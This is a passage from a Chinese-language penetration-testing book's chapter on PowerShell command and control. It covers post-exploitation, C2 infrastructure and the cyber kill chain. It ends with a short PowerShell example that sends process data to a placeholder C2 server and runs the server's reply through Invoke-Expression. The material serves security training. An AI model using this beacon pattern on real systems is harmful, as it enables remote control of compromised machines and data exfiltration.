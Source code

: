 

# 第十四章：命令与控制

在不断变化的网络安全环境中，掌握 PowerShell 的力量已经成为渗透测试人员工具包中的基石，尤其是那些希望复制现实世界场景的人员。本章深入探讨了在渗透测试过程中使用 PowerShell 进行**命令与控制**（**C2**）的艺术与科学，在渗透测试中，安全专家模拟攻击以评估防御的强度。

PowerShell，微软的任务自动化框架，已经成为一把双刃剑——既是防御者的工具，也是攻击者的工具。随着组织加强防御，攻击者利用 PowerShell 的多功能性，悄无声息地穿越网络、建立持久连接并执行恶意命令。本章将引导你了解 PowerShell 在渗透测试背景下的复杂应用，揭示其在 C2 操作中的能力。

我们首先探讨基础概念，了解 PowerShell 如何被武器化用于后期利用活动。本章揭示了渗透测试人员如何模拟对抗战术的多种方式，从利用内置的 cmdlet 和脚本到执行复杂的混淆技术。实用的示例将引导你了解执行命令、操作系统和规避检测的复杂性——这一切都在渗透测试的受控框架内进行。

在本章的学习过程中，你将深入了解如何积极使用 PowerShell 来加强防御策略。理解对手的视角对于加强网络防御至关重要，本章为安全专家提供了在渗透测试中使用 PowerShell 进行 C2 操作的知识，帮助他们应对动态变化的安全威胁。

本章涵盖的主要内容如下：

+   后期利用、C2 和网络杀伤链

+   用于 C2 的 PowerShell 组件

+   使用 Empire 进行 C2

+   使用 Meterpreter 和 PowerShell 进行 C2

# 后期利用、C2 和网络杀伤链

后期利用、C2 和网络杀伤链是网络安全中的基本概念。它们共同构成了一个框架，帮助你理解、响应和减轻网络威胁。后期利用是初次入侵后的阶段，攻击者旨在保持访问权限、提升特权、收集情报并在被攻陷的系统中横向移动。此阶段涉及部署恶意软件植入、利用漏洞、窃取凭据以及使用"地面生活"技术来规避检测。

C2 是使攻击者能够远程管理被攻陷系统的基础设施和通信机制。这包括命令服务器、通信协议、加密和有效载荷传递。攻击者使用**域生成算法**（**DGAs**）、分阶段有效载荷、快速变化的 DNS 和加密通信来建立和维持对被攻陷环境的控制。

网络攻击链提供了一个战略模型，概述了从侦察到实现攻击者目标的网络攻击阶段。这些阶段包括侦察、武器化、交付、利用、安装、C2（指挥与控制）和目标执行。理解网络攻击链有助于组织在每个阶段制定针对性的防御措施，以防止、检测和响应网络威胁。在后期利用阶段，组织必须专注于建立持久性、特权升级、数据收集和横向移动。防御措施包括强大的终端保护、定期补丁更新和全面的监控。

C2 防御要求识别并阻止通信通道，监控异常行为，并进行加密检查。积极的措施，如威胁情报、用户教育和事件响应规划，对于应对网络攻击链至关重要。组织可以通过全面解决后期利用、C2 和网络攻击链来加强其网络安全态势。这需要结合技术解决方案、积极措施以及一个明确定义的事件响应策略，以有效应对和缓解网络威胁所带来的复杂挑战。

# 用于 C2 的 PowerShell 组件

PowerShell 是一种功能强大且可扩展的脚本语言，攻击者在后期利用过程中越来越多地使用它来建立 C2 通道。在这次探索中，我们将深入研究可以用于 C2 目的的 PowerShell 组件，并提供详细示例来说明它们的实现。

## 网络通信的 Cmdlets

PowerShell 提供了允许与外部服务器进行通信的 cmdlets，从而促进 C2 通道的建立。例如，**Invoke-RestMethod** cmdlet 可以用于与 Web 服务进行交互。考虑以下示例：

```
 $C2Server = "htt p://c2server.snowcap cyber.com"
$Payload = "Get-Process | Out-String"
# Sending data to C2 server
$response = Invoke-RestMethod -Uri "$C2Server/data" -Method Post -Body $Payload
# Executing received commands
Invoke-Expression $response
```
